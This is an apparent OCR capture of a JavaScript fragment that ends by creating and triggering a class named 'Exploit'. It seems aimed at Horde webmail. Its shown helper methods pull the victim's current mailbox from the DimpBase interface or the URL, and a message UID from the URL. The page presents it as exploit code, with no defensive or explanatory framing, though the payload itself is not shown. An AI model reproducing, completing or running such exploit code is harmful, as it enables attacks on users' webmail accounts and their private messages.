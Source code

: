         get_mailbox() {
            if (window.DimpBase !== undefined) {
                return
    DimpBase.viewport.getSelection(DimpBase.pp.VP_view).search({
                    VP_id: {
                        equal: [ DimpBase.pp.VP_id ]
                    }
                }).get('dataob').first().VP_view;
            }
            else if (location.href.match('mailbox=([A-Za-z0-9]*)') !== null) {
                return location.href.match('mailbox=([A-Za-z0-9]*)')[1];
            }
            else if (location.href.match('mbox=([A-Za-z0-9]*)') !== null) {
                return location.href.match('mbox=([A-Za-z0-9]*)')[1];
            }
        }

        get_buid() {
            if (location.href.match('buid=([0-9]*)') !== null) {
                return location.href.match('buid=([0-9]*)')[1];
            }
            else if (location.href.match(';([0-9]*)') !== null) {
                return location.href.match(';([0-9]*)')[1];
            }
        }
    }

    const exploit = new Exploit();
    exploit.trigger();